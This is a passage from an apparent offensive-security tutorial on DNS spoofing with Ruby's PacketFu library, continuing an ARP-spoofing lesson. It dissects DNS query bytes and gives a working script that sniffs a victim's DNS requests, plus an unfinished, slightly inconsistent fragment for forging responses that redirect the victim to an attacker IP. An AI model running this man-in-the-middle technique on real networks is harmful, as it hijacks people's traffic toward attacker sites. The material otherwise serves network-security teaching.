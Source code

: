 # DNS Spoofing
Continuing our attack through [ARP Spoofing](module_0x4__network_kungfu/arp_spoofing.md), we want to change the victim's DNS request to whatever destination we like.

### Scenario
```
                |Attacker|
                    | AttackerSite
                    ٧                      AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
          AnySite      AttackerSite
```
> Keep the ARP spoof attack running

The same IPs of ARP spoof attack

| Host        |   IP Address  |
|:-----------:|:-------------:|
| Attacker    | 192.168.0.100 |
| Victim      | 192.168.0.21  |
| Router      | 192.168.0.1   |



Now we cant intercept DNS Query packet coming from victim's machine. Since PacketFu supports filters in capturing (to reduce mount of captured packets) we'll use `udp and port 53 and host` filter, then we'll inspect the captured packet to ensure that it's a query then find the requested domain..........

From wireshark, if we take a deeper look at the DNS query payload in `Domain Name System (query)`, we can see its been presented in hexdecimal format.

| ![Wireshark](../images/module03/dns_spoofing_wireshark1.png) |
|:---------------:|
| **Figure 1.** DNS query Payload  |


Let's to anatomize our payload
```
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01
```
* The First 2 bytes is the **Transaction ID** and we don't care about it for now. (Our case: `\xe7\x1d`)
* The Nex 2 bytes is the **Flags**[^3]. (We need: `\x01\x00` = \x10)
* Farthermore, in **Queries** section which contains

```
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01
```



* The **Queries** starts at *13 byte* of the payload.
    * The13th byte specifies the length of the domain name *before* the *very first dot* (without last dot com or whatever the top domain is). (Our case: `\x07`)
        **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
        * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
        * Each dot after first dot will be replaced with the length of the followed characters

        **e.g.** www.google.co.uk
            * First length (**www**)  => will be replaced with `\x03`
            * First dot(**.google**) => will be replaced with `\x06`
            * Second dot(**.co**)    => will be replaced with `\x02`
            * Third dot(**.uk**)     => will be replaced with `\x02`

    * The very end of the domain name string is terminated by a `\x00`.
    * The next 2 bytes refers to the **type of the query**[^4]. (Our case: `\x00\x01`)




**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
    * We need to know the domain length
    * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll devide our tasks then wrape it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analize the valide UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end
```
Till now we successfully finished [ARP Spoofing](module_0x3__network_kungfu/arp_spoofing.md) then DNS cupturing but still we need to replace/spoof the original response to our domain. eg. attacker.zone
Great, now we have to build a DNS response instead of spoofed to be sent. So what we need?

* taking the IP we are going to redirect the user to (the spoofing_ip)
    * converting it into hex using the to_i and pack functions.
* From there we create a new UDP packet using the data contained in @ourInfo (IP and MAC) and fill in the normal UDP fields.
    * I take most of this information straight from the DNS Query packet.
* The next step is to create the DNS Response.
    * he best way to understand the code here is to look at a DNS header and then
    * take the bit map of the HEX values and apply them to the header.
    * This will let you see what flags are being set.
* From here, we just calculate the checksum for the UDP packet and send it out to the target’s machine.



```ruby

spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"


```



https://github.com/SilverFoxx/Spoofa/blob/master/spoofa

Sources[^1] [^2] - The code has been modified and fixed

<br><br><br>
---
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
|   Bit  | Flag | Description          | Reference |
|:------:|------|----------------------|-----------|
| bit 5  |  AA  | Authoritative Answer | [RFC1035] |
| bit 6  |  TC  | Truncated Response   | [RFC1035] |
| bit 7  |  RD  | Recursion Desired    | [RFC1035] |
| bit 8  |  RA  | Recursion Allowed    | [RFC1035] |
| bit 9  |      | Reserved             |           |
| bit 10 |  AD  | Authentic Data       | [RFC4035] |
| bit 11 |  CD  | Checking Disabled    | [RFC4035] |
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)
|  Type | Value |               Description               |
|:-----:|:-----:|:---------------------------------------:|
| A     | 1     | IP Address                              |
| NS    | 2     | Name Server                             |
| CNAME | 5     | Alias of a domain name                  |
| PTR   | 12    | Reverse DNS Lookup using the IP Address |
| HINFO | 13    | Host Information                        |
| MX    | 15    | MX Record                               |
| AXFR  | 252   | Request for Zone Transfer               |
| ANY   | 255   | Request for All Records                 |
